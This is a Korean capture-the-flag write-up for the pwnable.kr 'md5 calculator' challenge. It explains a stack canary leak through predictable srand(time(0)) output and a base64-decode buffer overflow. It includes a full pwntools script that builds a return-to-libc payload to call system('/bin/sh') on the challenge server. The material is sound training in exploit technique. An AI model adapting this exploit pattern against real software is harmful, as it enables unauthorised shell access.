



# _md5 calculator_

**Category:** _Pwnable_

**Source:** _pwnable.kr_

**Points:** _200_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
- RTL

## Write-up

1. code분석



srand(time(0))으로 seed를 정하기 때문에 시간만 맞추면 rand()의 값들을 알아 낼 수 있습니다.

my_hash의 결과값을 printf로 찍어줍니다.

scanf로 받은 값이 my_hash의 값과 같으면 process_hash()를 실행해 줍니다.

system()이 있어서 libc leak할 필요없이 plt, got에 system이 존재합니다. 이 system을 활용해서 shell을 따내려 합니다.



my_hash 코드입니다.

rand()를 8번 진행해서 array에 저장합니다.

canary와 array의 첫번째 값을 제외한 7개의 값을 연산한 결과를 return 합니다.

main에서 이 값을 print해주기 때문에 rand()의 값들만 알아주면 canary 값을 알 수 있습니다.


process_hash 코드입니다.

v3를 0x200만큼 memset합니다.

g_buf(전역변수)를 1024만큼 input을 받습니다.

base64decode함수로 입력받은 g_buf를 decoding하여 v3에 저장합니다.

이때 bof가 일어납니다.

2. exploit 작성

process_hash에서 bof를 이용해서 RTL로 system('/bin/sh')를 호출 하려 합니다.

canary는 my_hash에서 leak할 수 있습니다.

주의할 점은 input을 base64로 encoding한값을 넣어줘야한다.
(input을 base64 decoding해서 stack에 저장하기 때문)
("/bin/sh" 문자열은 base64할필요없이 위의 payload뒤에 붙여주면 된다. 전역변수인 g_buf의 기준으로 값을 읽어올 예정이기 때문이다......이것땜에 삽질좀했었다....ㅜ)

time()을 맞춰줘서 srand seed값을 동일하게 한후 rand()를 알아낸다.

print로 찍어주는 my_hash의 ret값에서 알아낸 rand()들을 이용해서 canary를 알아낸다.

payload = dummy(512) + system_plt + dummy(12) + "/bin/sh"문자열의 주소(g_buf의 주소 + len(b64 encoding된 payload))

payload를 b64로 encoding한다.

그 뒤에 "/bin/sh"문자열을 추가로 입력해준다.


```python
from pwn import *
import base64
from ctypes import *
from ctypes.util import find_library

if __debug__:
	script='''b*process_hash+226
	c
	'''
	# p=gdb.debug('./hash',script)
	p=process('./hash')
else:
	p=remote('pwnable.kr',9002)

e=ELF('./hash')
system_plt=e.plt['system']
g_buf=e.symbols['g_buf']

p.recvuntil('cha : ')
num=int(p.recvline())
print('num = '+hex(num))
libc = CDLL(find_library('c'))
libc.srand(libc.time(0))
array=[libc.rand() for i in range (8)]
canary=num-array[1]-array[2]+array[3]-array[4]-array[5]+array[6]-array[7]
canary=canary&0xffffffff	

print('canary = '+hex(canary))

# payload='/bin/sh\n'+'a'*(512-8)
payload='a'*(512)
payload+=p32(canary)+'aaaa'*3+p32(system_plt)
payload+='aaaa'+p32(g_buf+720)

payload=base64.b64encode(payload)+'/bin/sh\x00'

p.sendline(str(num))

p.recvline()
p.recvline()
p.sendline(payload)

p.interactive()
p.close()
```


Flag : **_submit 한 flag_**

## References
_문제를 풀면서 도움을 받은 사이트들_

_표 또는 리스트로 작성_
